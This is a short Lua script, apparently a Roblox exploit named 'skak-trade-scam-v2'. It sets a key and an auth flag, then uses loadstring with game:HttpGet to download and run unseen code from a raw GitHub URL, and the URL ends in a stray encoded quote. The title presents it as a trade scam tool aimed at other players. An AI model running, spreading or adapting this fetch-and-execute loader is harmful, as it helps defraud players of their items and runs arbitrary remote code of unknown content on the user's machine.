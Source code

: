 # skak-trade-scam-v2
_G.Key = "kaks"

_G.AuthServer = "true"

loadstring(game:HttpGet("https://raw.githubusercontent.com/psx-Scripts/psxsc/main/script.lua%22))()

